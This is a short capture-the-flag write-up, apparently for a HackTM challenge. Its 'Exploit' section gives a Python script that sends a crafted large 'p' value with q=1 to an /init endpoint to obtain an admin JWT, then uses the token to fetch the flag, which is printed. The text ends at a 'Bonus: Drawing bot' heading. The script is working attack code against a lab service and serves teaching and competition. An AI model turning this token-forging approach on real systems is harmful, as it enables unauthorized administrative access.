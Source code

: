 ## Exploit

We call `/init` to generate an admin JWT token and call `/flag`:

```python3
import jwt  # pip install pyjwt

data = {
    "p": "54522055008424167489770171911371662849682639259766156337663049265694900400480408321973025639953930098928289957927653145186005490909474465708278368644555755759954980218598855330685396871675591372993059160202535839483866574203166175550802240701281743391938776325400114851893042788271007233783815911979",
    "q": "1"
}

resp = requests.post(url+"/init", json=data)
token = resp.json()['data']['token']
jwt_claim = jwt.decode(token, verify=False, algorithms=['HS256'])
assert jwt_claim['id'] == 0

resp = requests.get(url+"/flag", headers={"Authorization": "Bearer %s" % token})
print(resp.json())
```

## Flag

`HackTM{Draw_m3_like_0ne_of_y0ur_japan3se_girls}`


## Bonus: Drawing bot
